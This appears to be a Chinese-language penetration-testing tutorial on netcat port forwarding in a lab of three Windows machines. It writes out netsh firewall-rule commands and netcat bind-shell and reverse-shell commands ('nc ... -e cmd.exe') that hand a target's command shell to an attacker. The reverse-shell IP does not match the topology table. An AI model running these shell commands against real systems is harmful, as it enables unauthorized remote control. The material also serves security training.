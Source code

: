 [TOC]


# 内网渗透
## 0） 工具
[netcat工具下载地址](https://eternallybored.org/misc/netcat/)

## 1） 端口转发

*拓扑结构：*

| 名字 | 公网/内网 | IP |
|--------|--------|--------|
|   Win7专业版     |   攻击机子     |192.168.44.129(假设为自己公网IP)
|   Windows2008     |   目标边界机子     |192.168.44.133(假设为目标公网IP)
|   Win7渗透专用     |   目标内网机子     |192.168.44.130 (假设为目标内网IP)




### 1.1 netsh
1. 正向连接

	```
Windows2008命令：↓
添加防火墙规则，允许外部来连接本地的 tcp 53 端口[入站允许]
Windows2008>netsh advfirewall firewall add rule name="nc bind shell" dir=in action=allow protocol=TCP localport=53
-l 监听53端口，-e 创建shell
Windows2008>c:\>nc -lvp 53 -e cmd.exe
结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc bind shell" dir=in protocol=TCP localport=53
```
	```
Win7专业版命令：↓
-n 连接Windows2008的53端口
ske7Plus>nc -nv 192.168.44.133 53
```
![Windows2008 监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc1.png)
![Win7专业版   连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc2.png)

2. 反向连接
	```
Win7专业版命令：↓
添加防火墙规则，允许 tcp 的 53 端口连入,然后再执行监听
ske7Plus>netsh firewall add portopening TCP 53 "nc reverse shell"
ske7Plus>nc -lvp 53
```
	```
Windows2008命令：↓
添加防火墙规则，允许本地的 tcp 53 端口主动往外连[出站允许]
Windows2008>netsh advfirewall firewall add rule name="nc reverse shell" dir=out action=allow protocol=TCP localport=53
-n 连接目标ske7Plus的53端口，-e 创建shell
Windows2008>nc -nv 192.168.3.102 53 -e cmd.exe
结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc reverse shell" dir=out protocol=TCP localport=53
```
![Win7专业版   监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc3.png)
![Windows2008 连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc4.png)